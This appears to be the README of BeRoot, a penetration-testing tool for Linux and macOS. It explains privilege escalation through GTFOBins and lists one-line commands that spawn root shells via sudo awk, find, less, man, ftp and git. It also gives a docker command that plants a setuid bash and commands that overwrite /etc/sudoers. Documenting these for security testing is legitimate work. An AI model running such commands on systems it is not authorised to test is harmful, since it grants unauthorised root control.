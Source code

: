 # BeRoot For Linux

BeRoot is a post exploitation tool to check common misconfigurations on Linux and Mac OS to find a way to escalate our privilege. 

To understand privilege escalation on these systems, you should understand at least two main notions: GTFOBins and Wildcards. \
This Readme explains all technics implemented by BeRoot to better understand how to exploit it. 

GTFOBins
----

[GTFOBins](https://gtfobins.github.io/#) could be used to gain root privilege on a system. These binaries allow a user to execute arbitrary code on the host, so imagine you could have access to one of them with sudo privilege (suid binary or if it's allowed on the sudoers file), you should be able to execute system command as root. Take a look of the [GTFOBins](https://gtfobins.github.io/#) project to have a list more complete.  

Here is a list of some well-known binaries: 

* awk
```
sudo awk 'BEGIN {system("/bin/sh")}'
```

* docker (if you can call docker, no need to run it with sudo)
```
docker run -v /home/${USER}:/h_docs ubuntu bash -c "cp /bin/bash /h_docs/rootshell && chmod 4777 /h_docs/rootshell;" && ~/rootshell -p
```

* find
```
sudo find . -type d -exec sh -c id {} \;
```

* file viewer
```
less:	!bash
man: 	!bash or $ sudo man -P whoami man
more: 	!bash
```

* file modifications (cannot be consider as GTFOBins but useful for privilege escalation)
```
cp:	sudo cp -f your_file /etc/sudoers
mv:	sudo mv -f your_file /etc/sudoers
```

* ftp / sftp
```
ftp> ! ls
```

* git
```
export PAGER=./runme.sh
sudo git -p help
```
